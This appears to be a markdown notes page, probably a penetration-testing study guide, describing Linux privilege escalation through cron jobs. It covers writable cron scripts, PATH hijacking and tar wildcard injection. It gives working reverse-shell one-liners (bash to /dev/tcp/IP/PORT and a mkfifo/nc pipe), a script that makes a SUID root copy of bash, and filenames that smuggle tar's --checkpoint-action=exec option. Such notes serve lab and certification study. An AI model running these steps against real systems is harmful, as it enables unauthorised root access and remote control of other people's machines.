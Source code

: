 ```yaml
---
title: Cron Jobs
parent: Method (Linux)
layout: default
nav_order: 3
---
```


User crontab common location: `/var/spool/cron/` or `/var/spool/cron/crontabs/`

System wide crontab location: `/etc/crontab`


## File permissions
1. Check the crontab file:\
   `cat /etc/crontab`
2. If there is any script locate it:\
   `locate overwrite.sh`
3. Check for the permission:\
   `ls -l /usr/local/bin/overwrite.sh`
4. If can write, modify the file to be as file below.
5. Run `nc` and wait for the listener to catch.

xx.sh
```
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

## PATH Environment Variables
1. The crontab file has path set (default is `/usr/bin:/bin`, meaning look in `/usr/bin` first before look in `/bin`).
2. If you run `cat /etc/crontab` and find any script that don't use absolute path, can try to replace the script by creating a script file listed in PATH. (for eg if `PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`, can try create at `/home/user`) with the content below.
3. Ensure the script you created is executable (`chmod +x /home/user/xx.sh`)
4. Wait for the cronjob to run, and execute with -p to retain effective id:\
   `/tmp/rootbash -p`

xx.sh
```
#!/bin/bash
​
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

## Wildcard & Filenames
1. When use wildcard(`*`), will list out all file/folder name, space separated. For eg if you use `echo *` in home directory, probably will see results of `echo Desktop Documents...` (result: `Desktop Documents...`)
2. This can be abused because we can set complex options, like `--option=key=value` as a filename.
3. If you see in `/etc/crontab` that points to a script, and that script contains wildcard(`*`), potentially can abuse.
4. For example there is a tar wildcard in the compress.sh attached below, running in /home/user directory.
5. Check gtfobins for tar (https://gtfobins.github.io/gtfobins/tar/) and notice that tar can break out by setting some options (`--checkpoint=1 --checkpoint-action=exec=/bin/sh`)
6. Use default linux reverse shell. Create a bash file under /home/user(eg shell.sh):\
   `mkfifo /tmp/bzxltd; nc IP PORT 0</tmp/bzxltd | /bin/sh >/tmp/bzxltd 2>&1; rm /tmp/bzxltd`
7. Create the file below under /home/user (or you can use `echo "" >> filename`):\
   `touch ./--checkpoint=1`
   `touch ./"--checkpoint-action=exec=sh shell.sh"`
8. Wait for the cron job to run.